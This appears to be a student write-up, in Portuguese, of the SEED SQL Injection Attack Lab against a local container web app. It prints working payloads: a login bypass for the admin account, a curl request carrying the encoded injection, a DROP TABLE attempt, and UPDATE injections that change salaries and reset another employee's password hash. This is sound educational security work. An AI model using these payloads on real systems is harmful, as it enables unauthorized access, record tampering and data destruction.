









# SQL Injection Attack Lab
## Setup 

Foi-nos disponibilizado uma *webapp* com uma base de dados **MySQL**. O objetivo deste laboratório é explorar vulnerabilidades de **SQL Injection**.
Para começar temos que modificar o nosso ficheiro /etc/hosts para que o endereço IP do container contenha um IP e url que nós queremos. Para isso editamos o ficheiro com o seguinte comando:
```bash
$ sudo nano /etc/hosts
```
E adicionamos a seguinte linha ao ficheiro:
```bash
10.9.0.5        www.seed-server.com
```

Assim o nosso ficheiro sabe em que endereço se encontra o servidor.

Depois de darmos build ao container, podemos correr o seguinte comando para iniciar o servidor:
```bash
$ dockup
```
Agora o nosso servidor está a correr e usando 'dockps' encontramos o id do container. Para entrar na shell do container usamos o comando 'docksh' seguido do id do container:

<br>

Na *webapp* existem dois roles:
- Admin: tem acesso a todas as contas
- Employee: tem acesso apenas à sua conta

## MySql
Para vermos o que está da base de dados, usamos os seguintes comandos, enquanto estamos na shell do container:
```bash
 $ mysql -u root -pdees
```

<br>

## Ataques usando SELECT
### Primeiro ataque: Login como admin sem password
Para este ataque, temos que fazer login como admin sem password. Para isso, usamos o seguinte input:

<br>

Este input faz com que o servidor execute o seguinte comando:
```sql
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name='admin' # and Password='$hashed_pwd'
```
A parte da query que pediria a password está comentada, logo não é executada. Assim, o servidor devolve-nos a informação da conta do admin.

<br>

### Segundo ataque: login como admin pelo terminal

Vamos realizar um ataque através de um pedido HTTP GET. Um exemplo de um pedido HTTP GET é o seguinte:
```bash
curl "www.seed-server.com/unsafe_home.php?username=alice&Password=12345"
```
Para este ataque vamos usar o mesmo input que usamos no ataque anterior, usando %27 em vez de plicas e %23 em vez de '#'. Assim, o nosso pedido HTTP GET é o seguinte:
```bash
curl "www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```
Obtivemos o html com a informação da conta do admin:

<br>

### Terceiro ataque : Juntar um novo SQL statement
Podemos juntar um novo SQL statement ao fim do input usando ";". Com isso, podemos causar efeitos indesejados no servidor. Por exemplo, podemos apagar a tabela credential com o seguinte input:
```sql
admin'; DROP TABLE credential; #
```
Contudo, recebemos uma mensagem de erro, uma vez que, o servidor não permite a execução de mais do que uma query de cada vez:

<br>

## Ataques usando UPDATE
### Primeiro ataque: alterar o nosso salário
Se dermos login como um empregado, podemos aceder a uma pagina que nos permite alterar os nossos dados pessoais. Uma vez que o input nestes campos não é sanitizado, podemos alterar o nosso próprio salário com o seguinte input:
```sql
912345678', Salary='9999999
```
Com este input, o servidor executa o seguinte comando:
```sql 
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='9999999'
WHERE id = $id
```
Desta maneira, o salário foi alterado para o esperado:

<br>

### Segundo ataque: alterar o salário de outro empregado
Para alterarmos o salário de outro empregado, usamos a mesma técnica que no ultimo ataque, mas o WHERE vai ser colocado manualmente por nós e vamos comentar o WHERE original do statement. Assim, o nosso input é o seguinte:
```sql
912345678', Salary='1' WHERE name='Boby' #
```
O servidor executa o seguinte comando:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='1' WHERE name='Boby' # WHERE id = $id
```
Como podemos ver, modificamos o salário do Boby para 1:

<br>

### Terceiro ataque: modificar a password de outro empregado
A técnica para alterar a password vai ser a mesma que a do ataque anterior, só que a password que vamos colocar terá que ser já convertida para SHA1, vamos mudar a password para 'password'. O nosso input é o seguinte:
```sql
912345678', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' #
```
O servidor executa o seguinte comando:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' # WHERE id = $id
```
Como podemos ver, a password do Boby foi alterada para 'password' e podemos entrar na conta dele com essa password:

<br>